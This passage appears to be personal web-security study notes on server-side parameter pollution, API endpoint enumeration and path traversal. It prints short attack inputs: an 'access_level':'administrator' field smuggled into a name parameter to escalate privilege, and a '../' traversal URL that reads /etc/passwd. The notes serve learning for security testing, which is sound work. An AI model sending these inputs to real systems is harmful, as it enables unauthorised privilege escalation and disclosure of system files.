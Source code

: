 <h3>Server-side pollution with structured data</h3>

```
POST /myaccount
name=peter","access_level":"administrator
```

We can try to add **access_level** parameter to escalate privielge.

in case it is in JSON 

```
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```

<h1>We can use Burp Pro feature to automate the process!</h1>


<h1>Resources</h1>

API endpoint wordlists - https://github.com/chrislockard/api_wordlist

Server-Side Prototype Pollution Scanner - https://portswigger.net/blog/server-side-prototype-pollution-scanner

<h1>Recap & keywords</h1>

1. API enumeration = /api, API doc, Burp Scanner

2. API request enumeration = HTTP tampering, OPTIONS

3. Hidden API endpoints = POST /api/user/??? use Burp intruder

4. Server-side Pollution = try query syntax such as & # = in every parameter. For example **name=eheh&name=eheheh**, Server-Side Prototype Pollution Scanner, access_level=administrator etc

## Path Traversal

Very simple. You found functions, URL or API endpoints that read the file from specified path. In backend, the request should look like this

This is what you see

```
http://www.example.com/user.php?readfile=profile.php
```

This is what acutally happen in backend

```
/var/www/html/users/dummy/profile.php
```

(note that this is just the example)

we can try to request different path using API request. For example

```
http://www.example.com/user.php?readfile=../../../../../etc/passwd
```

../ is basically cd so ../ 5 times you will be at root path
